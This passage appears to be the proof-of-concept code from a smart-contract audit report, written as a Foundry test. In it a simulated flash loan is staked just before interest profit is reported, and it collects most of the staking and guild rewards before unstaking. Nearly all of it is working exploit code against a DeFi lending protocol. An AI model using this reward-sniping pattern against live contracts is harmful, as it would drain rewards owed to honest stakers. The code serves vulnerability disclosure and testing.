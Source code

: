 ```solidity
        uint borrowTime = block.timestamp;
        gUSDC.mint(ALICE, 100e18);

        // NOTE: Alice needs to transfer the borrowed 100e18 gUSDC to EXPLOITER for repayment.

        
        console.log("-------------------------------AFTER ATTACK-------------------------------");
        console.log("EXPLOITER Credit Balance before flashloan:                              ", gUSDC.balanceOf(EXPLOITER));
        // EXPLOITER gets a flashloan.
        gUSDC.mint(EXPLOITER, 10_000_000e18);
        console.log("EXPLOITER Credit Balance after flashloan:      ", gUSDC.balanceOf(EXPLOITER));
        vm.startPrank(EXPLOITER);
        gUSDC.approve(address(sgmUSDC), 10_000_000e18);
        sgmUSDC.stake(termUSDC, 10_000_000e18);
        console.log("EXPLOITER Credit balance after stake:                                   ", gUSDC.balanceOf(EXPLOITER));
        vm.stopPrank();

    	vm.warp(block.timestamp + 150 days);
        uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
        vm.prank(governor);
        profitManagerUSDC.setProfitSharingConfig(
            0.05e18, // surplusBufferSplit
            0.9e18, // creditSplit
            0.05e18, // guildSplit
            0, // otherSplit
            address(0) // otherRecipient
        );

        profitManagerUSDC.notifyPnL(termUSDC, int256(interest));
        
        sgmUSDC.getRewards(EXPLOITER, termUSDC);
        console.log("EXPLOITER (instant) Credit reward:                     ", gUSDC.balanceOf(address(EXPLOITER)));
        console.log("EXPLOITER (instant) Guild reward:                     ", guild.balanceOf(address(EXPLOITER)));
        //EXPLOITER's profit is based on the guild split since he own almost all of the GUILD totalSupply.

        vm.startPrank(EXPLOITER);
        sgmUSDC.unstake(termUSDC, 10_000_000e18);
        vm.stopPrank();

        console.log("EXPLOITER credit balance after unstake:        ", gUSDC.balanceOf(EXPLOITER));

        // NOTE: EXPLOITER repays the flash loan here.

        sgmUSDC.getRewards(STAKER1, termUSDC);
        sgmUSDC.getRewards(STAKER2, termUSDC);
        sgmUSDC.getRewards(STAKER3, termUSDC);
        console.log("Staker1 credit reward:                                      ", gUSDC.balanceOf(address(STAKER1)));
        console.log("Staker1 guild reward:                                      ", guild.balanceOf(address(STAKER1)));
        console.log("Staker2 credit reward:                                     ", gUSDC.balanceOf(address(STAKER2)));
        console.log("Staker2 guild reward:                                      ", guild.balanceOf(address(STAKER2)));
        console.log("Staker3 credit reward:                                     ", gUSDC.balanceOf(address(STAKER3)));
        console.log("Staker3 guild reward:                                      ", guild.balanceOf(address(STAKER3)));
```